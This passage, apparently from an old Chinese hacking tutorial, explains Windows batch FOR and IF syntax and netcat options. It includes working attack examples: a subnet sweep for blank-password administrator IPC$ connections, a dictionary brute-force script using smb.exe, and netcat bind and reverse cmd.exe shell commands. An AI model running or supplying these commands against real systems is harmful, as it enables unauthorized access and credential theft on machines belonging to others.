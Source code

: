 ```
　　(set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1 }
　　command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开
　　command_parameters：为特定命令指定参数或命令行开关
　　IN (set)：指在(set)中取值；DO command ：指执行command
　　参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。
　　用法举例：
　　@echo off
　　echo 用法格式：test.bat *.*.* > test.txt
　　for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt
　　存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。
　　/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。
　　@echo off
　　echo 用法格式：ok.bat ip
　　FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
　　存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。
　　七：
　　2：if命令及变量 基本格式
　　IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。
　　例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。
　　0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
　　IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
　　例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）
　　IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。
　　例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。
　　IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：“if exist test.txt. <del test.txt.> else echo test.txt.missing ”，注意命令中的“.”
　　系统外部命令
　　注：系统外部命令(均需下载相关工具)
　　瑞士军刀：nc.exe
　　参数说明：
　　-h 查看帮助信息
　　-d 后台模式
　　-e prog程序重定向，一但连接就执行[危险]
　　-i secs延时的间隔
　　-l 监听模式，用于入站连接
　　-L 监听模式，连接天闭后仍然继续监听，直到CTR+C
　　-n IP地址，不能用域名
　　-o film记录16进制的传输
　　-p[空格]端口 本地端口号
　　-r 随机本地及远程端口
　　-t 使用Telnet交互方式
　　-u UDP模式
　　-v 详细输出，用-vv将更详细
　　-w数字 timeout延时间隔
　　-z 将输入，输出关掉（用于扫锚时）
　　基本用法：
　　nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口
　　nc -l -p 80 开启本机的TCP 80端口并监听
　　nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口
　　nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口
　　nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口
　　高级用法：
　　nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
　　nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
　　nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
　　type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
　　本机上用：nc -l -p 本机端口
```